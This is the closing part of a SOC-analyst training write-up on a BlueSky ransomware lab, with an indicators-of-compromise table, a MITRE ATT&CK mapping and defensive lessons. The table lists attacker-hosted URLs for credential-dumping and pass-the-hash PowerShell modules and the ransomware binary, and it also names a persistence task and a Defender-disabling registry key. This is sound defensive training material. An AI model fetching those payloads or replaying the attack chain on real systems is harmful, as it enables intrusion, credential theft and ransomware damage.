| URL | `http://87.96.21.84/Invoke-PowerDump.ps1` | Credential dumping module |
| URL | `http://87.96.21.84/Invoke-SMBExec.ps1` | Pass-the-Hash lateral movement module |
| URL | `http://87.96.21.84/extracted_hosts.txt` | Target host list |
| URL | `http://87.96.21.84/javaw.exe` | BlueSky ransomware binary |
| File | `C:\ProgramData\hashes.txt` | Dumped NTLM hashes |
| File | `# DECRYPT FILES BLUESKY #` | Ransom note |
| Extension | `.bluesky` | Encrypted file extension |
| SHA-256 | `3e035f2d7d30869ce53171ef5a0f761bfb9c14d94d9fe6da385e20b8d96dc2fb` | `javaw.exe` hash |
| Task | `\Microsoft\Windows\MUI\LPupdate` | Persistence scheduled task |
| Registry | `HKLM:\SOFTWARE\Microsoft\Windows Defender\DisableAntiSpyware` | Defender disabled |
| Hosts (lateral) | `87.96.21.71`, `87.96.21.75`, `87.96.21.80`, `87.96.21.81` | PtH targets |

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Reconnaissance | T1046 | Network Service Discovery (port scan) |
| Initial Access | T1190 | Exploit Public-Facing Application (MS-SQL) |
| Initial Access | T1078.001 | Valid Accounts: Default Accounts (`sa`) |
| Execution | T1059.001 | PowerShell |
| Execution | T1047 | Windows Management Instrumentation (xp_cmdshell via SQL) |
| Privilege Escalation | T1055 | Process Injection (winlogon.exe) |
| Defense Evasion | T1562.001 | Disable or Modify Tools (Defender + AV) |
| Defense Evasion | T1112 | Modify Registry (Defender keys) |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name (javaw.exe, LPupdate) |
| Persistence | T1053.005 | Scheduled Task (`\Microsoft\Windows\MUI\LPupdate`) |
| Credential Access | T1003.002 | OS Credential Dumping: SAM (Invoke-PowerDump) |
| Discovery | T1135 | Network Share Discovery (host enumeration) |
| Lateral Movement | T1550.002 | Pass the Hash (Invoke-SMBExec) |
| Command & Control | T1071.001 | Web Protocols (HTTP to Python SimpleHTTP) |
| Impact | T1486 | Data Encrypted for Impact (BlueSky ransomware) |

---

## Lessons Learned

1. **Never use default MS-SQL credentials** — `sa` with a weak password is a trivially exploitable entry point. Disable the `sa` account and use named accounts with strong passwords and limited permissions.
2. **Disable `xp_cmdshell` and monitor its enablement** — Any SQL query attempting to enable `xp_cmdshell` should trigger an immediate SIEM alert and be blocked at the database firewall level.
3. **Monitor for process injection into `winlogon.exe`** — Any `CreateRemoteThread` targeting `winlogon.exe` from a non-SYSTEM process is a critical EDR alert.
4. **Block outbound HTTP from database servers** — A database server initiating HTTP GET requests to external IPs is highly anomalous. Enforce strict egress filtering.
5. **Monitor registry modifications to Windows Defender keys** — Any write to `HKLM:\SOFTWARE\Microsoft\Windows Defender\Disable*` should trigger an immediate P1 alert.
6. **Detect Pass-the-Hash patterns** — Authenticate only via Kerberos where possible; enable Windows Defender Credential Guard to protect LSASS memory from hash extraction.
7. **Immutable, offline backups** — BlueSky targets accessible backup infrastructure. Air-gapped or immutable backups are the last line of defense against ransomware encryption.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: BlueSky Ransomware Lab*